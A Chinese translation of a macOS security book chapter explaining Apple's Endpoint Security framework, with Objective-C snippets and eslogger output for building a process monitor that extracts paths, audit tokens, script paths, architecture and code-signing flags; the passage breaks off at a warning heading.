

<hgroup>

## 8 ENDPOINT SECURITY

</hgroup>


如果你已经读到这本书的这一部分，你可能已经得出结论，编写 macOS 的安全工具是一项具有挑战性的任务，主要原因在于 Apple 本身。例如，如果你想捕获远程进程的内存，那么你就无能为力了，列举所有持久安装的项目是可行的，正如你在第五章中看到的那样，但这需要逆向工程一个专有的、未公开的数据库。

但我不是来批评 Apple 的，正如本章将要展示的那样，该公司通过发布 Endpoint Security 来回应我们的呼声。它在 macOS 10.15（Catalina）中引入，是 Apple 首个专为帮助第三方开发者构建高级用户模式安全工具而设计的框架，例如那些专注于检测恶意软件的工具。^(1) Endpoint Security 的重要性和强大功能难以言表，这也是为什么我会专门 dedicating 两章内容来讨论它。

在本章中，我将概述该框架，并讨论如何使用其 API 执行如监控文件和进程事件等操作。下一章将重点介绍更高级的主题，如静音和授权事件。在第三部分中，我将向你展示如何在 Endpoint Security 上构建几个工具。

本章和下一章中展示的大多数代码片段直接来自 *ESPlayground* 项目，该项目位于本书 GitHub 仓库的第八章文件夹中（[*https://<wbr>github<wbr>.com<wbr>/Objective<wbr>-see<wbr>/TAOMM*](https://github.com/Objective-see/TAOMM)）。这个项目包含完整的代码，因此，如果你想构建自己的 Endpoint Security 工具，建议从那里开始。

### Endpoint Security 工作流

Endpoint Security 允许你创建一个程序（在 Apple 的术语中称为*客户端*）并注册感兴趣的事件（或*订阅*事件）。每当这些事件在系统上发生时，Endpoint Security 会将一条消息发送给你的程序。它还可以在你的工具授权之前阻止事件的执行。例如，假设你希望在每次新进程启动时收到通知，这样你就可以确保它不是恶意软件。使用 Endpoint Security，你可以指定是仅接收新进程的通知，还是在你检查并授权之前，系统应暂时阻止该进程的启动。

许多 Objective-See 的工具使用了我刚才描述的 Endpoint Security。例如，BlockBlock 使用 Endpoint Security 来监控持久文件事件，并阻止非公证进程和脚本。图 8-1 展示了 BlockBlock 阻止利用零日漏洞（CVE-2021-30657）绕过 macOS 代码签名和公证检查的恶意软件。

为了防止恶意行为者滥用端点安全的功能，macOS 要求任何利用端点安全的工具必须满足若干要求。最显著的一项是从苹果获得*com.apple.developer.endpoint-security.client*的授权。在本书的第三部分中，我将详细解释如何向苹果申请此授权，并在获得授权后生成并应用配置文件，以便你可以将你的工具部署到其他 macOS 系统。



图 8-1：BlockBlock 使用端点安全来阻止不受信任的脚本和进程运行。

如本书引言所述，暂时禁用系统完整性保护（SIP）和苹果移动文件完整性（AMFI）将允许你本地开发和测试利用端点安全的工具。你仍然需要添加客户端授权，但在禁用这两个 macOS 安全机制后，你可以将授权授予自己。在*ESPlayground*项目中，你可以在*ESPlayground.entitlements*文件中找到所需的端点安全客户端授权（列表 8-1）。

```
<?xml version="1.0" encoding="UTF-8"?>
...
<plist version="1.0">
<dict>
    <key>**com.apple.developer.endpoint-security.client**</key>
    <true/>
</dict>
</plist> 
```

列表 8-1：指定所需的客户端授权

代码签名授权构建设置引用了这个文件，因此在编译时，它会被添加到项目的应用程序包中。因此，在禁用 SIP 和 AMFI 的系统上，订阅并接收端点安全事件将成功。

如果你正在设计一个利用端点安全的工具，你可能会采取相同的四个步骤：

1.  声明感兴趣的事件。

2.  创建一个新的客户端和回调处理块。

3.  订阅事件。

4.  处理传递给处理块的事件。

让我们逐步了解这些步骤，从理解感兴趣的事件开始。

#### 感兴趣的事件

你可以在*ESTypes.h*头文件中找到端点安全事件的列表。如果你安装了 Xcode，这个文件和其他端点安全的头文件应该位于其 SDK 目录下：*/Applications/Xcode.app/Contents/Developer/Platforms/MacOSX.platform/Developer/SDKs/MacOSX.sdk/usr/include/EndpointSecurity*。虽然苹果的官方开发文档有时不完整，但头文件*ESClient.h*、*ESMessage.h*、*EndpointSecurity.h*和*ESTypes.h*都有非常详细的注释，你应该将它们视为端点安全信息的权威来源。

在*ESTypes.h*中，你可以在 es_event_type_t 枚举中找到端点安全事件的列表：

```
/**
 * The valid event types recognized by EndpointSecurity
 *
 ...
 *
*/
typedef enum {

  // The following events are available beginning in macOS 10.15.
  ES_EVENT_TYPE_AUTH_EXEC,
  ES_EVENT_TYPE_AUTH_OPEN,
  ES_EVENT_TYPE_AUTH_KEXTLOAD,
  ...
  ES_EVENT_TYPE_NOTIFY_EXEC,
  ...
  ES_EVENT_TYPE_NOTIFY_EXIT,
  ...

  // The following events are available beginning in macOS 13.0.
  ES_EVENT_TYPE_NOTIFY_AUTHENTICATION,
 ES_EVENT_TYPE_NOTIFY_XP_MALWARE_DETECTED,
  ES_EVENT_TYPE_NOTIFY_XP_MALWARE_REMEDIATED,
  ...
  ES_EVENT_TYPE_NOTIFY_BTM_LAUNCH_ITEM_ADD,
  ES_EVENT_TYPE_NOTIFY_BTM_LAUNCH_ITEM_REMOVE,

  // The following events are available beginning in macOS 14.0.
  ...
  ES_EVENT_TYPE_NOTIFY_XPC_CONNECT,

  // The following events are available beginning in macOS 15.0.
  ES_EVENT_TYPE_NOTIFY_GATEKEEPER_USER_OVERRIDE,
  ...

  ES_EVENT_TYPE_LAST
} es_event_type_t; 
```

让我们做一些观察。首先，正如头文件中的注释所示，并非所有事件都在所有版本的 macOS 中可用。例如，你会发现与 XProtect 恶意软件检测或持久性项目添加相关的事件仅从 macOS 13 开始才有。

其次，虽然这个头文件和 Apple 的开发者文档没有直接记录这些事件类型，但它们的名称应该能给你一个大致的用途概念。例如，想要被动监控进程执行的工具应该订阅 ES_EVENT_TYPE_NOTIFY_EXEC 事件。此外，正如我们将看到的，每个事件类型都与一个相应的事件结构相关联，例如 es_event_exec_t。框架头文件对此进行了很好的记录。

最后，头文件中的名称分为两类：ES_EVENT_TYPE_AUTH_* 和 ES_EVENT_TYPE_NOTIFY_*。授权事件通常来源于内核模式，并在交付给 Endpoint Security 客户端后进入待处理状态，需要客户端显式授权或拒绝它们。例如，要仅允许已验证的进程运行，你需要先注册 ES_EVENT_TYPE_AUTH_EXEC 事件，然后检查每个交付的事件，仅授权那些代表已验证进程生成的事件。我将在下一章讨论授权事件。通知事件来源于用户模式，适用于已经发生的事件。如果你在创建被动监控工具，例如进程监控工具，你将订阅这些事件。

内置的 macOS 工具 eslogger，位于 */usr/bin*，提供了一种轻松探索 Endpoint Security 子系统的方式，因为它直接从终端捕获并输出 Endpoint Security 通知。例如，假设你想构建一个进程监控工具。你的监控工具应该订阅哪些 Endpoint Security 事件，以便接收有关进程的信息？ES_EVENT_TYPE_NOTIFY_EXEC 事件看起来很有前景。让我们使用 macOS 的 eslogger 来看看我们是否在正确的方向上。

为了捕获并输出感兴趣的 Endpoint Security 事件，可以从终端以 *root* 权限执行 eslogger，并指定事件的名称。该工具使用简短的名称表示 Endpoint Security 通知事件，你可以通过 --list-events 命令行选项列出这些事件：

```
# **eslogger --list-events**
access
authentication
...
exec
... 
```

要查看 ES_EVENT_TYPE_NOTIFY_EXEC 事件，传递 exec 给 eslogger：

```
# **eslogger exec**
```

一旦 eslogger 捕获到进程执行事件，尝试执行一个命令，比如 say，参数为 Hello World。该工具应该输出关于执行事件的详细信息。^(2) 这是输出的一个片段（在你的系统上可能会稍有不同，具体取决于你的 macOS 版本）：

```
# **eslogger exec**
{
    "event_type": 9,
        "event": {
            "exec": {
                "script": null,
                "target": {
                    "signing_id": "com.apple.say",
                    "executable": {
                    "path": "\/usr\/bin\/say",
                    "ppid": 1152,
                    ...
                    "is_platform_binary": true,
                    "audit_token": {
                        ...
                    },
                    "original_ppid": 1152,
                    "cdhash": "6C92E006B491C58B62F0C66E2D880CE5FE015573",
                    "team_id": null
                },
                "image_cpusubtype": -2147483646,
                "image_cputype": 16777228,
                "args": ["say", "Hello", "World"],
                ...
} 
```

如你所见，Endpoint Security 不仅提供了基本信息，如新执行进程的路径和进程 ID，还提供了代码签名信息、参数、父进程 PID 等更多内容。利用 Endpoint Security 可以大大简化任何安全工具，避免其必须生成关于事件本身的额外信息。

#### 客户端、处理程序块和事件处理

现在，你可能会想知道如何订阅事件并以编程方式与其中的信息交互。例如，如何提取进程通知事件 ES_EVENT_TYPE_NOTIFY_EXEC 的路径或参数？首先，你必须创建一个 Endpoint Security 客户端。

要创建一个新的客户端，进程可以调用 Endpoint Security 函数 es_new_client，该函数接受一个回调处理程序块和一个指向 es_client_t 的输出指针，Endpoint Security 将使用新客户端来初始化它。该函数返回一个类型为 es_new_client_result_t 的结果，如果调用成功，则设置为 ES_NEW_CLIENT_RESULT_SUCCESS。它还可能返回以下失败值之一，如*ESClient.h*中详细说明：

> **ES_NEW_CLIENT_RESULT_ERR_NOT_ENTITLED** 调用者没有*com.apple.developer.endpoint-security.client*的授权。
> 
> **ES_NEW_CLIENT_RESULT_ERR_NOT_PERMITTED** 调用者没有权限连接到 Endpoint Security 子系统，因为它没有得到用户的 TCC 批准。
> 
> **ES_NEW_CLIENT_RESULT_ERR_NOT_PRIVILEGED** 调用者没有 root 权限。

头文件提供了有关这些错误的更多细节，以及如何修复每个错误的建议。

在你订阅事件后，框架会自动为每个事件调用传递给 es_new_client 函数的回调处理程序块。在调用中，框架会包括一个指向客户端的指针和一个包含已传递事件详细信息的 es_message_t 结构。*ESMessage.h*文件定义了此消息类型：

```
typedef struct {
    uint32_t version;
    struct timespec time;
    uint64_t mach_time;
    uint64_t deadline;
    es_process_t* _Nonnull process;
    uint64_t seq_num; /* field available only if message version >= 2 */
    es_action_type_t action_type;
    union {
        es_event_id_t auth;
        es_result_t notify;
    } action;
    es_event_type_t event_type;
    es_events_t event;
    es_thread_t* _Nullable thread; /* field available only if message version >= 4 */
    uint64_t global_seq_num; /* field available only if message version >= 4 */
    uint64_t opaque[]; /* Opaque data that must not be accessed directly */
} es_message_t; 
```

我们可以查阅头文件，了解每个结构成员的简要描述（或运行 eslogger 查看每个事件的完整结构），但这里我们先介绍几个重要成员。在结构体的开头是版本字段。这个字段非常有用，因为某些其他字段可能仅在较新版本中才会出现。例如，进程的 CPU 类型（image_cputype）仅在版本字段为 6 或更高版本时才可用。接下来是各种时间戳和一个截止时间。我将在第九章中讨论截止时间，因为它在处理事件授权时起着重要作用。

es_process_t 结构描述了负责执行触发事件的操作的进程。稍后我们将更详细地探讨 es_process_t 结构，但现在足以理解它们包含关于进程的信息，包括审计令牌、代码签名信息、路径等。

下一个讨论的成员是 event_type，它将设置为已传递事件的类型，例如 ES_EVENT_TYPE_NOTIFY_EXEC。这非常有用，因为客户端通常会注册多个事件类型。由于每种事件类型包含不同的数据，因此确定你正在处理的事件类型非常重要。例如，一个进程监视器可能会使用 switch 语句来处理这些事件类型（Listing 8-2）。

```
switch(message->event_type) {
    case ES_EVENT_TYPE_NOTIFY_EXEC:
        // Add code here to handle exec events.
        break;

    case ES_EVENT_TYPE_NOTIFY_FORK:
        // Add code here to handle fork events.
        break;

    case ES_EVENT_TYPE_NOTIFY_EXIT:
        // Add code here to handle exit events.
        break;

    default:
        break;
} 
```

Listing 8-2：处理多种消息类型

es_message_t 结构中的事件类型特定数据的类型是 es_events_t。该类型是一个大型联合体，定义在 *ESMessage.h* 中，映射到 Endpoint Security 事件。例如，在这个联合体中，我们找到了 es_event_exec_t，这是 ES_EVENT_TYPE_NOTIFY_EXEC 事件类型。在同一个头文件中，定义了 es_event_exec_t：

```
/**
 * @brief Execute a new process.
 * @field target The new process that is being executed.
 * @field script The script being executed by the interpreter.
 ...
*/
typedef struct {
    es_process_t* _Nonnull target;
    es_string_token_t dyld_exec_path; /* field available only if message version >= 7 */
    union {
        uint8_t reserved[64];
        struct {
            es_file_t* _Nullable script; /* field available only if message version >= 2 */
            es_file_t* _Nonnull cwd; /* field available only if message version >= 3 */
            int last_fd; /* field available only if message version >= 4 */
            cpu_type_t image_cputype; /* field available only if message version >= 6 */
            cpu_subtype_t image_cpusubtype; /* field available only if message version >= 6 */
            };
        };
} es_event_exec_t; 
```

再次参考头文件，查看 es_event_exec_t 结构每个成员的详细注释。最相关的是名为 target 的成员，它是指向 es_process_t 结构的指针，表示被执行的新进程。让我们更仔细地看看这个结构，看看它提供了关于进程的哪些信息：

```
/**
 * @brief Information related to a process. This is used both for describing processes ...
(e.g., for exec events, this describes the new process being executed).
 *
 * @field audit_token Audit token of the process
 * @field ppid Parent pid of the process
 ...
 * @field signing_id The signing id of the code signature associated with this process
 * @field team_id The team id of the code signature associated with this process
 * @field executable The executable file that is executing in this process
...
*/
typedef struct {
    audit_token_t audit_token;
    pid_t ppid;
    pid_t original_ppid;
    pid_t group_id;
    pid_t session_id;
    uint32_t codesigning_flags;
    bool is_platform_binary;
    bool is_es_client;
    uint8_t cdhash[20];
    es_string_token_t signing_id;
    es_string_token_t team_id;
    es_file_t* _Nonnull executable;
    es_file_t* _Nullable tty;
    struct timeval start_time;
    audit_token_t responsible_audit_token;
    audit_token_t parent_audit_token;
} es_process_t; 
```

与头文件中的其他结构一样，注释解释了许多结构成员。特别对我们感兴趣的是以下成员：

+   审计令牌（例如 audit_token、responsible_audit_token 和 parent_audit_token）

+   代码签名信息（例如 signing_id 和 team_id）

+   可执行文件（executable）

在前面的章节中，我讨论了构建进程层级的有用性以及创建准确进程层级所面临的挑战。Endpoint Security 子系统为我们提供了直接父进程和负责创建新进程的进程的审计令牌，使得为新创建的进程构建准确的进程层级变得轻而易举。es_process_t 结构直接包含这些信息，因此我们不再需要手动构建这样的层级。

现在让我们谈谈 es_process_t 结构的可执行成员，它是指向 es_file_t 结构的指针。如以下结构定义所示，es_file_t 结构提供了磁盘上文件的路径，例如进程的二进制文件：

```
/**
 * @brief es_file_t provides the stat information and path to a file.

 * @field path Absolute path of the file
 * @field path_truncated Indicates if the path field was truncated
 ...
*/
typedef struct {
    es_string_token_t path;
    bool path_truncated;
    struct stat stat;
} es_file_t; 
```

要获取实际路径，你必须了解另一个结构，es_string_token_t。你会经常遇到它，因为它是 Endpoint Security 存储字符串（如文件路径）的方式。这个简单的结构定义在 *ESTypes.h* 中，仅包含两个成员：

```
/**
 * @brief Structure for handling strings
*/
typedef struct {
    size_t length;
    const char* data;
} es_string_token_t; 
```

结构中的 length 成员是字符串令牌的长度。头文件中的注释指出，它等同于 strlen 返回的值。然而，你不应该对字符串数据使用 strlen，因为结构的 data 成员不能保证是以 NULL 结尾的。要将 es_string_token_t 结构打印为 C 字符串，使用 %.*s 格式字符串，它需要两个参数：要打印的最大字符数，然后是指向字符的指针（Listing 8-3）。

```
es_string_token_t* responsibleProcessPath = &message->process->executable->path;
printf("responsible process: %.*s\n",
(int)responsibleProcessPath->length, responsibleProcessPath->data);

es_string_token_t* newProcessPath = &message->event.exec.target->executable->path;
printf("new process: %.*s\n", (int)newProcessPath->length, newProcessPath->data); 
```

Listing 8-3：从 es_process_t 结构中输出 es_string_token_t 结构

首先，代码提取触发 Endpoint Security 事件的进程的字符串 token。然后，使用上述格式化字符串和字符串 token 结构的长度和数据成员打印出该进程的路径。回想一下，当发生 ES_EVENT_TYPE_NOTIFY_EXEC 事件时，描述新创建进程的结构可以在 exec 结构的 target 成员中找到（该结构位于消息的事件结构中）。接着，代码访问该结构以打印出新创建进程的路径。

现在，你可能不仅仅希望打印出有关事件的信息。例如，对于所有新进程，你可能想提取它们的路径并将其存储在数组中，或者将每个路径传递给一个函数来检查它们是否经过公证。为了实现这一点，你可能需要将字符串 token 转换为更易于编程操作的对象，如 NSString。如列表 8-4 所示，你可以通过一行代码来实现这一点。

```
NSString* string = [[NSString alloc] initWithBytes:stringToken->data length:stringToken->
length encoding:NSUTF8StringEncoding]; 
```

列表 8-4：将 es_string_token_t 转换为 NSString

代码使用了 NSString 的 initWithBytes:length:encoding: 方法，传入字符串 token 的数据、长度成员以及字符串编码 NSUTF8StringEncoding。

要实际开始接收事件，你必须订阅！手持 Endpoint Security 客户端后，调用 es_subscribe API。它的参数包括新创建的客户端、事件数组以及要订阅的事件数量，这里包括进程执行和退出事件（列表 8-5）。

```
es_client_t* client = NULL;
es_event_type_t events[] = {ES_EVENT_TYPE_NOTIFY_EXEC, ES_EVENT_TYPE_NOTIFY_EXIT};

es_new_client(&client, ^(es_client_t* client, const es_message_t* message) {
    // Add code here to handle delivered events.
});

es_subscribe(client, events, sizeof(events)/sizeof(events[0])); ❶ 
```

列表 8-5：订阅事件

请注意，我们计算事件的数量，而不是硬编码它 ❶。一旦 es_subscribe 函数返回且没有错误，Endpoint Security 子系统将开始异步地传递与我们订阅的类型匹配的事件。具体来说，它将调用我们在创建客户端时指定的处理块。

### 创建进程监控器

让我们通过创建一个依赖于 Endpoint Security 的进程监控器来应用所学的内容。我们将首先订阅进程事件，如 ES_EVENT_TYPE_NOTIFY_EXEC，然后在接收到事件时解析相关的进程信息。

> 注意

*这里仅提供相关的代码片段，完整的代码可以在* ESPlayground *项目的* monitor.m *文件中找到。你也可以在 Objective-See 的 GitHub 仓库中的* ProcessMonitor *项目找到一个基于 Endpoint Security 的开源、生产就绪的进程监控构建，链接为* [`github.com/objective-see/ProcessMonitor*.*`](https://github.com/objective-see/ProcessMonitor)

我们首先指定感兴趣的 Endpoint Security 事件。对于一个简单的进程监控器，我们可以只关注 ES_EVENT_TYPE_NOTIFY_EXEC 事件。然而，我们还会注册 ES_EVENT_TYPE_NOTIFY_EXIT 事件，以追踪进程退出。我们将这些事件类型放入一个数组中（列表 8-6）。一旦创建了一个 Endpoint Security 客户端，我们将订阅这些事件。

```
es_event_type_t events[] = {ES_EVENT_TYPE_NOTIFY_EXEC, ES_EVENT_TYPE_NOTIFY_EXIT};
```

列表 8-6：简单进程监控器的关注事件

在列表 8-7 中，我们通过 es_new_client API 创建一个客户端。

```
es_client_t* client = NULL;
es_new_client_result_t result =
es_new_client(&client, ^(es_client_t* client, const es_message_t* message) { ❶
    // Add code here to handle delivered events.
});

if(ES_NEW_CLIENT_RESULT_SUCCESS != result) { ❷
    // Add code here to handle error.
} 
```

列表 8-7：创建一个新的 Endpoint Security 客户端

我们调用 es_new_client API 创建一个新的客户端实例 ❶，并暂时不实现处理程序块。假设调用成功，我们将得到一个新初始化的客户端。代码检查调用结果是否与 ES_NEW_CLIENT_RESULT_SUCCESS 常量匹配，以确认这一点 ❷。请记住，如果您的项目没有适当授权，或者通过终端运行时未授予其完全磁盘访问权限，或者代码没有以 root 权限运行，调用 es_new_client 将会失败。

#### 订阅事件

拿到客户端后，我们可以通过调用 es_subscribe API 来订阅进程执行和退出事件（列表 8-8）。

```
es_event_type_t events[] = {ES_EVENT_TYPE_NOTIFY_EXEC, ES_EVENT_TYPE_NOTIFY_EXIT};

// Removed code that invoked es_new_client

es_subscribe(client, events, sizeof(events)/sizeof(events[0])); ❶ 
```

列表 8-8：订阅关注的进程事件

请注意，我们计算事件的数量，而不是硬编码它 ❶。一旦 es_subscribe 函数返回，Endpoint Security 子系统将开始异步传送与我们已订阅类型匹配的事件。

#### 提取进程对象

这带我们进入最后一步，即处理已传送的事件。我提到过，处理程序块会以两个参数被调用：类型为 es_client_t 的客户端（接收事件的客户端）和指向事件消息的指针，类型为 es_message_t。如果我们不处理授权事件，客户端就不直接相关，但我们会使用消息，其中包含有关已传送事件的信息。

首先，我们将提取指向 es_process_t 结构的指针，该结构包含关于新启动进程或刚刚退出进程的信息。选择提取哪个进程结构需要根据事件类型来决定。对于退出（以及大多数其他）事件，我们将提取消息中的进程成员，该成员包含指向负责触发事件的进程的指针。然而，对于进程执行事件，我们更关心访问刚刚启动的进程。因此，我们将使用 es_event_exec_t 结构，其 target 成员是指向相关 es_process_t 结构的指针（列表 8-9）。

```
es_new_client(&client, ^(es_client_t* client, const es_message_t* message) {
    es_process_t* process = NULL;
  ❶ u_int32_t event = message->event_type;
  ❷ switch(event) {
      ❸ case ES_EVENT_TYPE_NOTIFY_EXEC:
          process = message->event.exec.target;
          ...
          break;

 ❹ case ES_EVENT_TYPE_NOTIFY_EXIT:
          process = message->process;
          ...
          break;
    }
    ...
}); 
```

列表 8-9：提取相关进程

我们首先从消息中提取事件类型 ❶，然后根据事件类型进行切换 ❷，从而提取指向 `es_process_t` 结构体的指针。在进程执行事件的情况下，我们从 `es_event_exec_t` 结构体 ❸ 中提取刚刚启动的进程。对于进程退出消息，我们直接从消息中提取进程 ❹。

#### 提取进程信息

现在我们有了指向 `es_process_t` 结构体的指针，可以提取信息，比如进程的审计令牌、PID、路径以及代码签名信息。此外，对于新启动的进程，我们可以提取其参数，对于已退出的进程，我们可以提取其退出代码。

##### 审计令牌

让我们从简单的开始，通过提取进程的审计令牌（Listing 8-10）。

```
NSData* auditToken = [NSData dataWithBytes:&process->audit_token length:sizeof(audit_token_t)];
```

Listing 8-10: 提取审计令牌

审计令牌是 `es_process_t` 结构体中的第一个字段，类型为 `audit_token_t`。你可以直接使用这个值，或者像这里所做的那样，将其提取到一个 `NSData` 对象中。回想一下，审计令牌允许你唯一且安全地识别进程，并提取其他进程的信息，比如进程 ID。在 Listing 8-11 中，我们将审计令牌传递给 `audit_token_to_pid` 函数，该函数返回 PID。

```
pid_t pid = audit_token_to_pid(process->audit_token);
```

Listing 8-11: 将审计令牌转换为进程 ID

我们还可以通过 `audit_token_to_euid` 函数从审计令牌中提取进程的有效 UID。

请注意，调用这些函数时需要导入 *bsm/libbsm.h* 头文件并链接 *libbsm* 库。

##### 进程路径

在 Listing 8-12 中，我们通过指向 `es_process_t` 结构体中的 `executable` 字段的指针提取进程路径。这个字段指向一个 `es_file_t` 结构体，其中的 `path` 字段包含进程的路径。

```
NSString* path = [[NSString alloc] initWithBytes:process->executable->path.data
length:process->executable->path.length encoding:NSUTF8StringEncoding]; 
```

Listing 8-12: 提取进程路径

因为该字段的类型是 `es_string_token_t`，我们将其转换为一个更易于管理的字符串对象。

##### 层级结构

使用 `es_process_t` 进程结构体也简化了进程层级的构建。我们可以从 `es_process_t` 结构体中提取父进程的 ID。然而，*ESMessage.h* 头文件中的一条注释建议改为使用 `parent_audit_token` 字段，该字段在版本 4 及更高版本的 Endpoint Security 消息中可用。在这些版本中，我们还会在一个恰如其分命名的字段 `responsible_audit_token` 中找到负责进程的审计令牌。在 Listing 8-13 中，在确保消息版本足够的情况下，我们提取这些信息。

```
pid_t ppid = process->ppid; ❶

if(message->version >= 4) {
    NSData* parentToken = [NSData dataWithBytes:&process->parent_audit_token
    length:sizeof(audit_token_t)]; ❷

    NSData* responsibleToken = [NSData dataWithBytes:&process->responsible_audit_token
    length:sizeof(audit_token_t)]; ❸

} 
```

Listing 8-13: 提取父进程和负责进程的令牌

我们提取父进程 PID ❶，对于较新版本的 Endpoint Security，提取父进程审计令牌 ❷ 和负责进程令牌 ❸。然后，这些信息可以用来构建进程层级结构。

##### 脚本路径

回想一下，es_event_exec_t 结构体描述了 ES_EVENT_TYPE_NOTIFY_EXEC 事件。到目前为止，我们主要关注该结构体的第一个字段，即指向 es_process_t 结构体的指针。然而，es_event_exec_t 结构体的其他字段对进程监视器也是有用的，尤其是在启发式检测恶意软件时。

例如，考虑当被执行的进程是 *脚本解释器* 的情况，脚本解释器是用来运行脚本的程序。当用户执行脚本时，操作系统会在后台确定正确的脚本解释器并调用它来执行脚本。在这种情况下，Endpoint Security 会报告脚本解释器作为执行的进程，并显示其路径，例如 */usr/bin/python3*。然而，我们更关心的是 *解释器* 正在执行 *什么*。如果我们能够确定间接执行的脚本路径，那么我们就可以扫描它以查找已知的恶意软件，或者使用启发式方法来判断它是否可能是恶意的。

幸运的是，Endpoint Security 2 版本及以上的消息会在 es_event_exec_t 结构体的脚本字段中提供此路径。如果新生成的进程不是脚本解释器，该字段将为空（NULL）。此外，如果脚本是作为解释器的参数执行的（例如，如果用户运行了 python3 <某个脚本路径>），该字段也不会被设置。然而，在这种情况下，脚本会作为进程的第一个参数出现。

列表 8-14 显示了如何通过脚本字段提取脚本的路径。

```
❶ if(message->version >= 2) {
    es_string_token_t* token = &message->event.exec.script->path;
  ❷ if(NULL != token) {
        NSString* script = [[NSString alloc] initWithBytes:token->data
        length:token->length encoding:NSUTF8StringEncoding];
    }
} 
```

列表 8-14：提取脚本路径

我们确保只在兼容版本的 Endpoint Security ❶ 上尝试此提取操作，并且脚本字段不为空（NULL）❷。

如果你直接执行一个 Python 脚本，*ESPlayground* 中的进程监控代码会报告 Python 为生成的进程，并给出脚本的路径：

```
# **ESPlayground.app/Contents/MacOS/ESPlayground -monitor**

ES Playground
Executing (process) 'monitor' logic

event: ES_EVENT_TYPE_NOTIFY_EXEC
(new) process
    pid: 10267
    path: /usr/bin/python3
    script: /Users/User/Malware/Realst/**installer.py**"
    ... 
```

这个例子捕获了 Realst 恶意软件，它包含一个名为 *installer.py* 的脚本。现在我们可以检查这个脚本，它揭示了旨在窃取数据并让攻击者访问用户加密货币钱包的恶意代码。

##### 二进制架构

Endpoint Security 在 es_event_exec_t 结构体中提供的另一个信息是进程的架构。在第二章中，我讨论了如何以编程方式确定任何正在运行的进程的架构，但方便的是，Endpoint Security 子系统也可以做到这一点。

要访问生成的进程的二进制架构，你可以提取 image_cputype 字段（如果你对 CPU 子类型感兴趣，也可以提取 image_cpusubtype），如列表 8-15 所示。此信息仅在 Endpoint Security 版本 6 及以上可用，因此代码首先会检查兼容的版本。

```
if(message->version >= 6) {
    cpu_type_t cpuType = message->event.exec.image_cputype;
} 
```

列表 8-15：提取进程的架构

这段代码应该返回像 0x100000C 或 0x1000007 这样的值。通过查看 Apple 的 *mach/machine.h* 头文件，可以看到这些值分别对应 CPU_TYPE_ARM64（Apple Silicon）和 CPU_TYPE_X86_64（Intel）。

##### 代码签名

在 第三章 中，你已经看到如何利用那些相当古老的 Sec* API 手动提取代码签名信息。为了简化这个提取过程，Endpoint Security 会在每个消息中报告触发事件的进程的代码签名信息。有些事件还可能包含其他进程的代码签名信息。例如，ES_EVENT_TYPE_NOTIFY_EXEC 事件包含新生成进程的代码签名信息。

你可以在进程的 es_process_t 结构体中的以下字段找到代码签名信息：

> **uint32_t codesigning_flags** 包含进程的代码签名标志
> 
> **bool is_platform_binary** 标识平台二进制文件
> 
> **uint8_t cdhash[20]** 存储签名的代码目录哈希
> 
> **es_string_token_t signing_id** 存储签名 ID
> 
> **es_string_token_t team_id** 存储团队 ID

让我们逐个查看这些字段，从 codesigning_flags 开始，它的值可以在 Apple 的 *cs_blobs.h* 头文件中找到。列表 8-16 从 es_process_t 结构体中提取代码签名标志，并检查它们是否包含几个常见的代码签名值。由于 codesigning_flags 的值是一个位字段，代码使用逻辑与（&）运算符来检查特定的代码签名值。

```
// Process is an es_process_t*
#import <kernel/kern/cs_blobs.h>

uint32_t csFlags = process->codesigning_flags;

if(CS_VALID & csFlags) {
    // Add code here to handle dynamically valid process signatures.
}
if(CS_SIGNED & csFlags) {
    // Add code here to handle process signatures.
}
if(CS_ADHOC & csFlags) {
    // Add code here to handle ad hoc process signatures.
}
... 
```

列表 8-16：提取进程的代码签名标志

访问并提取代码签名标志可能允许你执行类似调查生成进程的操作，这些进程的签名是临时的，意味着它们是不受信任的。广泛传播的 3CX 供应链攻击使用了一个二阶段的有效负载，该负载使用临时签名进行了签名。^(3)

在 es_process_t 结构体中，你还会发现 is_platform_binary 字段，这是一个布尔标志，对于仅用 Apple 证书签名并且是 macOS 一部分的二进制文件，该字段会被设置为 true。需要注意的是，对于那些没有预装在 macOS 中的 Apple 应用程序，例如 Xcode，这个字段会被设置为 false。还需要注意的是，CS_PLATFORM_BINARY 标志似乎不会出现在平台二进制文件的 codesigning_flags 字段中，因此应查看 is_platform_binary 字段的值来获取这一信息。

警告

